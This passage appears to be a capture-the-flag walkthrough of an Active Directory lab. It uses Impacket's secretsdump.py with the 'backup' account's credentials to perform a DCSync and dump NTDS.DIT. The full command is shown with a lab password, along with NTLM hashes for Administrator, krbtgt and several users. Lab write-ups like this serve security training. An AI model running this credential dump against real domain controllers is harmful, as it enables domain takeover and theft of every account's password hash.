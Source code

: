 **Introduction**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

!["dcsync.png"](files/dcsync.png)

Knowing this, we can use another tool within Impacket called `secretsdump.py`. This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

## #7.1 - What method allowed us to dump NTDS.DIT?

*Hint: Read the secretsdump output!*

~~~
$ secretsdump.py -dc-ip 10.10.104.142 spookysec.local/backup:backup2517860@10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
~~~
